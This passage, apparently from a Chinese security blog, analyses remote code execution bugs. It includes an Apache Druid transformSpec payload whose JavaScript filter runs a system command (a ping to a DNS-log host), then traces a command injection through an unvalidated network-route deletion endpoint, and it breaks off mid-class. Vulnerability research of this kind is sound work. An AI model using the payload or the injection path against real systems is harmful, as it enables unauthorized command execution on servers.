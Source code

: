 ```json
  "transformSpec":{
    "transforms":[],
    "filter":{
        "type":"javascript",
        "dimension":"added",
        "function":"function(value) {java.lang.Runtime.getRuntime().exec('ping dnslog')}",
        "":{
            "enabled":True
        }
    }
  }
```

具体漏洞调用流程有兴趣的大佬可以自己调一下



## 再来看看产品的一个漏洞

有这么一个删除路由的接口

```java
@DeleteMapping("/networkRoute")
@CheckValidateAble
public ApiResponse deleteNetworkRoute(@Validated @RequestBody NetworkRouteDTO networkRouteDTO, HttpServletRequest request)
        throws ValidateException, IOException, NetworkSettingsException {
    /*
    
    code to rce
    
    */
}
```

只要能通过`@Validated`和`@CheckValidateAble`的验证，`networkRouteDTO`中的参数就可以插到命令中导致RCE

先看看`networkRouteDTO`

```java
@Data
public class NetworkRouteDTO implements ValidateAble {
    private List<NetworkRoute> networkRouteList;

    @Override
    public void validate() throws ValidateException {
    }
}
```

这是`networkRoute`的定义

```java
@Data
@AllArgsConstructor
@NoArgsConstructor
@ToString
public class NetworkRoute implements ValidateAble {

    @Min(value = METRIC_MIN_VALUE, message = "network.networkRoute.Metric.notes")
    @Max(value = METRIC_MAX_VALUE, message = "network.networkRoute.Metric.notes")
    private Integer metric;

    @Size(max = NetworkConstants.NetworkCommonAttribute.INTERFACE_NAME_LENGTH, message = "network.networkInterface.name.notes")
    @NotNull(message = "network.networkInterface.name.notes")
    private String interfaceName;

```